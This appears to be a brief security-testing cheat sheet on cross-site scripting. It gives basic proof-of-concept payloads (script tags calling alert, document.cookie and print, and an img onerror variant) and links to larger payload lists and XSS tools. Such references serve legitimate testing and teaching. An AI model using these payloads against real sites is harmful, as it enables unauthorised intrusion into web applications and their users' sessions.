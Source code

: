	#### Payloads
Basic payload
```html
<script>alert(window.origin)</script>
```

Basic payload to display cookie
```html
<script>alert(document.cookie)</script>
```

Payload in case alert() is blocked. Stops rendering HTML and turns it into plaintext.
```html
<script><plaintext></script>
```

Payload to pop up browser print dialog (unlikely to be browser-blocked)
```html
<script>print()</script>
```

Payload that does not contain \<script> tag (useful for DOM attacks). Creates new HTML image object with an onerror that triggers when the image cannot be found:
```html
<img src="" onerror=alert(window.origin)>
```
##### More Payloads
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or [PayloadBox](https://github.com/payloadbox/xss-payload-list)
#### Tools
 [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)